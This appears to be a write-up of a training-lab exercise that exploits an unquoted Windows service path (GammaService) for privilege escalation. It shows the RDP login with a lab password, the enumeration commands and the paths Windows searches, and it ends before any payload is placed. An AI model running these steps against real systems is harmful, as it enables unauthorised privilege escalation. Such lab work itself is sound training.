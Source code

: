 # Questions 1
Follow the steps from this section on CLIENTWK220 (VM #1) to exploit the unquoted service path of GammaService. Obtain code execution, an interactive shell, or access to the GUI as an administrative user and find the flag on the desktop of daveadmin.
# HINT
Follow the steps in this learning unit.
If you encounter any issues with RunAs, try running an Administrator command prompt and entering dave2's credentials to obtain a shell.

xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.192.220

# Open Powershell 
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
GammaService        Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
# Above shows a stopped service named GammaService. The unquoted service binary path contains multiple spaces and is therefore potentially vulnerable to this attack vector.

# A more effective way to identify spaces in the paths and missing quotes is using the WMI command-line (WMIC) utility.
# To use this command, please proceed with cmd.exe instead of PowerShell to avoid escaping issues
C:\Users\steve>wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
...                                    
GammaService           C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe 
...

# Before we go on, let's check if we can start and stop the identified service as steve with Start-Service and Stop-Service.
PS C:\> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
PS C:\> Stop-Service GammaService

# Above results shows steve user have the permissions to start and stop services

# Next, let's list the paths Windows uses to attempt locating the executable file of the service.
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
